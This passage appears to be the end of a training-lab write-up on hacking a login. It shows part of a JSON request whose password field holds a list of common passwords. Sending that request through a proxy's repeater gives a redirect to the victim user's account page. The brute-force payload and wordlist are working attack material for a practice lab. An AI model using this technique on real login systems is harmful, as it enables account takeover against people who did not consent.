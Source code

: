 ```
"112233",
"george",
"computer",
"michelle",
"jessica",
"pepper",
"1111",
"zxcvbn",
"555555",
"11111111",
"131313",
"freedom",
"777777",
"pass",
"maggie",
"159753",
"aaaaaa",
"ginger",
"princess",
"cheese",
"amanda",
"summer",
"love",
"ashley",
"nicole",
"chelsea",
"biteme",
"matthew",
"access",
"yankees",
"987654321",
"dallas",
"austin",
"thunder",
"taylor",
"matrix",
"mobilemail",
"mom",
"monitor",
"monitoring",
"montana",
"moon",
"moscow"
],"":""}
```
2. we send it via repeater and get **HTTP/1.1 302 Found** response pointing with **Location: /my-account** to **GET /my-account HTTP/1.1**

3. sending this to browser we find ourselves insede carlos account

# DONE